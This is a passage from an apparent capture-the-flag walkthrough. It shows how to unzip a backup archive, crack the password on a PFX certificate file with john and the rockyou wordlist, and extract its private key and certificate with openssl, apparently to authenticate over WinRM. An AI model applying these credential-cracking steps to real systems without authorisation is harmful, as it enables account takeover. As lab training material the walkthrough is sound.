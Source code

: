 Unzipping the archive results in a [PFX](https://docs.microsoft.com/en-us/windows-hardware/drivers/install/personal-information-exchange---pfx--files) file, `legacyy_dev_auth.pfx`.

```bash
$ unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password:supremelegacy
  inflating: legacyy_dev_auth.pfx
```

A PFX file contains an SSL certificate and its corresponding private key. If these can be extracted from the file, they can probably be used to authenticated to the target over WinRM as the `legacyy` or `dev` user (based on the name of the file).

To extract these from the PFX, first brute force it with `john` and `rockyou.txt`, recovering the password, `thuglegacy`.

```bash
$ python2.7 /opt/2john/pfx2john.py legacyy_dev_auth.pfx > legacyy_dev_auth.hash   $ john --wordlist=/usr/share/wordlists/rockyou.txt legacyy_dev_auth.hash
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 512/512 AVX512BW 16x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)
1g 0:00:00:13 DONE (2022-03-29 13:32) 0.07299g/s 235893p/s 235893c/s 235893C/s thyriana..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Using [this IBM article](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file) as a guide, extract the encrypted private key.

```bash
$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key
Enter Import Password:thuglegacy
Enter PEM pass phrase:blah
Verifying - Enter PEM pass phrase:blah
$ ls legacyy_dev_auth.key
legacyy_dev_auth.key
```

Decrypt the private key.

```bash
$ openssl rsa -in legacyy_dev_auth.key -out legacyy_dev_auth-decrypted.key
Enter pass phrase for legacyy_dev_auth.key:blah
writing RSA key
$ ls legacyy_dev_auth-decrypted.key
legacyy_dev_auth-decrypted.key
```

Extract the certificate which contains the public key.

```bash
$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
Enter Import Password:thuglegacy
$ ls legacyy_dev_auth.crt
legacyy_dev_auth.crt
```

